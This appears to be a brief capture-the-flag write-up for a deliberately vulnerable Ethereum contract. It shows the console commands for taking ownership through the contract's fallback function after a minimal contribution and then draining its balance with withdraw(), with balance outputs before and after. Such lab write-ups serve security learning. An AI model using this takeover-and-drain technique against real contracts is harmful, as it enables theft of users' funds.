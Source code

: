 Owner gets changed in one of two functions: contribute() and (fallback).

Approach 1:
Idea is to call contribute() to make myself have more contribution than the owner’s contribution. But owner has 1000 ETH, and there is no way we can get that much ETH and outcompete the owner!!

Approach 2:
Call the fallback function. In order to do that we need to first increase my contribution to above 0:
  await contract.contribute({value: toWei(0.0009) });
Now it will pass the require check in (fallback), so we can trigger the (fallback) by sending ETH to the contract:
  await contract.send(toWei(0.01));

To verify changed owner: 
await contract.owner()
"0x6ba166580bd6989f2cad8b5245d269b845694baf"

Now, empty all of contract’s balance to my account:
Check current contract balance:
await getBalance("0xcf8932c6b0444e9ae118156a83181171c11a4c2d")
"0.0109"

My current balance: 
await getBalance("0x6ba166580bD6989F2CAD8b5245d269B845694BAf")
"41.9848995867"

contract.withdraw()

await getBalance("0xcf8932c6b0444e9ae118156a83181171c11a4c2d")
"0"

await getBalance("0x6ba166580bD6989F2CAD8b5245d269B845694BAf")
"41.9957667176"

